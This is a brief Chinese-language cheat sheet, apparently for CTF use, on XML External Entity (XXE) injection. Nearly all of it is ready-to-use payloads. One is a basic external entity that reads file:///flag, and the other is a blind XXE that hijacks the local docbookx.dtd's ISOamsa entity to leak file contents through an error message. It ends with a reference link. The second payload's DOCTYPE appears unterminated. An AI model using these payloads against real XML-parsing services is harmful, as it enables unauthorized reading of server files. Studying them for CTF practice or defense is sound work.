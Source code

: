 # XXE

外部实体

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```


Blind-XXE 引用本地DTD
利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## 参考资料

https://xz.aliyun.com/t/3357